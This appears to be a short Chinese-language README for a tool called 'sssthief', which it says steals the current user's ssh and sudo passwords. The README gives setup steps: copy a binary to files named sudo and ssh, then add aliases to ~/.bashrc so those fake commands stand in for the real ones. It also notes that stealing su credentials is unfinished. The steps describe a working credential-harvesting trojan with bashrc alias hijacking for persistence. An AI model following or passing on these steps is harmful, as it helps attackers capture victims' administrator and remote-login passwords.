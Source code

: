 # sssthief
窃取当前用户的ssh，sudo密码

cp test_linux_amd64 sudo 
cp test_linux_amd64 ssh

~/.bashrc
alias sudo="程序路径/sudo"
alias ssh="程序路径/ssh"

ps:su窃取功能未完成
